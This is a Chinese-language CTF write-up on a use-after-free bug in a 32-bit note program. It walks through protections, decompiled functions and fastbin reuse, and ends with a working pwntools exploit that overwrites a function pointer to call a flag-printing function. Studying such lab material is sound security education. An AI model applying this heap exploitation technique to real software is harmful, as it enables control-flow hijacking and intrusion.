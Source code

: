 # Level 3 Writeup

## Use after free复现与分析

### 技术点

- 

### 分析

首先通过checksec检查可执行文件的保护机制

![image-20230425185230936](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251852994.png)

能够得知以下信息：

- 可执行文件为一个32位的英特尔x86可执行文件，使用小端序编码。
- 开启了“部分Relocation Read-Only”技术。
- 开启了“堆栈金丝雀（stack canary）”技术，说明程序在栈上的缓冲区和控制数据（比如返回地址）之间会放置一个随机生成的小整数（称为canary或canary word）。当缓冲区溢出时，canary往往会第一个被破坏，因此使栈溢出攻击变得困难。
- 开启了“No-eXecute”保护技术。
- 没有开启“独立位置可执行（Position Independent Executable）”技术。

接下来通过IDA pro来查看反汇编程序源码：

![image-20230425190105973](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251901004.png)

程序大意为一个笔记程序，具有"Add note"、"Delete note"、"Print note"、"Exit"四个选项。前三个选项分别对应一个实现了各自功能的函数。首先来看`add_note()`

![image-20230425190522773](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251905828.png)

该函数的功能是往一个数组`notelist`中添加笔记。当笔记少于5时，会先分配一个长度为8的内存块，然后再分配一个长度为用户输入的size的内存块，最后把用户输入的内容存入内存块中。其中put字段存储的是`print_note_content`函数的地址，content字段存储的是用户输入的笔记内容。若数组已满，则输出“Full”。

![image-20230425191608445](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251916493.png)

`print_note()`函数的功能是打印笔记内容。函数首先读取用户输入的位置，如果输入的位置超出了数组范围，就输出“Out of bound!”并退出程序。如果指定位置有笔记，就调用该笔记的put字段存储的函数，即`print_note_content`函数，来打印笔记的内容。

![image-20230425191821178](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251918197.png)

`del_note()`函数的功能是删除`notelist`数组中指定位置的笔记。函数首先读取用户输入的位置，如果输入的位置超出了数组范围，就输出“Out of bound!”并退出程序。如果指定位置有笔记，就先释放该笔记内容的内存，再释放该笔记所在的内存块。当释放掉笔记所在的内存块后，该内存块的指针仍然存在于`notelist`数组中，没有设置为NULL。如果后续调用`print_note()`，就可能会使用已经被释放掉的内存块，从而引发use after free的堆利用攻击。

另外，可执行文件中还存在着一个`magic()`函数，用来输出`flag`。

![image-20230425192117279](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251921296.png)

显然，本题的思路应该是想办法通过设置put字段为`magic`函数的地址，然后通过`print_note()`调用put指针所指的函数从而获得`flag`。

### 攻击复现

接下来实现攻击，首先要解决如何利用use after free原理修改put地址的值。因为笔记中content字段所分配的大小可以被用户所控制，因此考虑可以使用堆分配的Fast Bin机制。

Fast Bin是一种用于管理小尺寸（大小在0x20到0x80之间）的堆块的单向链表，它可以加快堆分配的速度。当一个堆块被释放时，它会被插入到对应尺寸的Fast Bin链表中，当有新的分配请求时，它会从链表中取出一个堆块返回给用户。这种分配采取 LIFO 策略，即优先最近释放的chunk。

结合本题的反汇编代码，产生如下攻击思路：

- 每次新建note都会分配两块堆内存
  - 一块`size==8`的内存用来存放put和content指针
  - 一块由用户控制大小的内存用来存放实际的content内容
- 如果新建两个note，即note0和note1，每次申请的用来存放content实际内容的内存都`size!=8`，那么内存布局如下图所示：
  ![image-20230425204843830](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304252048864.png)
- 然后再按照note0、note1的顺序删除两个note。这样对应尺寸`size==8`的Fast Bin链表末尾一定是刚刚分配的两个note用来存放指针的`size==8`的chunk，即`->note1->note0`的形式，如下图所示：
  ![image-20230425205151840](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304252051883.png)
- 此时再新建一个note，并且用户申请的用来存放实际content内容的内存大小设置为`size==8`那么此时分配到的两个内存如下
  ![image-20230425205244978](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304252052993.png)
  - 第一块`size==8`的用来存放put和content指针的内存会分配到note0中存放指针的地址
  - 第二块`size==8`的用来存放实际的content内容的内存会分配到note1中存放指针的地址，而这一部分是可以由用户任意输入的，因此可以给note1中put指针对应位置修改为`magic`函数的地址
- 这时调用`print_note()`函数打印note1的内容，函数会调用note1中put指针所指向的函数，而此时put指针已被修改为指向`magic`函数，因此`magic`函数将会被执行，从而获得了flag。

最终的payload如下：

```python
from pwn import *

def addnote(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)

def delnote(idx):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))

def printnote(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))

r = process('./use_after_free')
magic = 0x08048986
addnote(32, b"aaaa")
addnote(32, b"ddaa")
delnote(0)
delnote(1)
addnote(8, p32(magic))
printnote(0)
r.interactive()
```

运行payload脚本，可以成功得到flag。

![image-20230425205702169](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304252057220.png)